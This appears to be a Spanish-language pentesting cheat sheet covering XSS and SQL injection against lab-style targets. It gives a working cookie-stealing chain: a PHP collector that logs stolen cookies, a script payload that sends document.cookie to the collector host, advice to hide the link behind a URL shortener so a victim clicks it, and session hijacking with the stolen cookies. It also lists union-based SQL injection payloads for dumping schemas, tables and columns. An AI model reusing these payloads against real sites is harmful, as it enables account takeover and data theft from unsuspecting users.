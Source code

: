 
#### xss

xss es un tipo de vulnerabilidad donde una aplicación web te permite ejecutar código en un cuadro de texto. Este vulnerabilidad es muy utilizada en aplicaciones como facebook, etc.. para extraer credenciales. Se manda un enlace con el código camuflado para que la victima clique y sin enterarse haga una acción en segundo plano.

<u>por ejemplo:</u>

En el siguiente ejemplo se ejecutara código en un cuadro de texto para extraer las cookies de un usuario y mandárselas remotamente a otro.

  

crear una web que ejecute php y insertar este archivo para recibir las cookies mediante url y  almacenarlas en cookies_list.txt

cookies.php

```php
<?php
    $handle=fopen("cookies_list.txt", "a");
	fputs($handle,"\n".$_GET["cookie"]."\n");
	fclose($handle);
?>
```

comprobar que funciona `10.1.1.3/cookies.php?cookie=test` 



código a inyectar mediante xss

```html
<script>var i=new Image();i.src="http://10.1.1.3/cookies.php?cookie="+document.cookie;</script>
```

este código hay que insertarlo dentro de algún cuadro de texto vulnerable y mediante un acortador de url como https://bitly.com/  crear un link.



Una vez recogidas las coockies, con mantra u otro insertarnos las cookies estraidas para acceder a la sesión de la victima.

##### Evasión de filtros

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#Basic_XSS_Test_Without_Filter_Evasion

https://html5sec.org/



#### sql injection

https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF

```
# extraer bases de datos
10.1.1.9/sqli/example1.php?name=root'+and+'1'='0'+union+select+1,schema_name,3,4,5+from+information_schema.schemata+--+-
existe la tabla exercises

# extraer tablas
10.1.1.9/sqli/example1.php?name=root'+and+'1'='0'+union+select+1,table_name,3,4,5+from+information_schema.tables+where+table_schema='exercises'+--+-
existe la tabla users

# extraer columnas
10.1.1.9/sqli/example1.php?name=root'+and+'1'='0'+union+select+1,column_name,3,4,5+from+information_schema.columns+where+table_name='users'+--+-

```
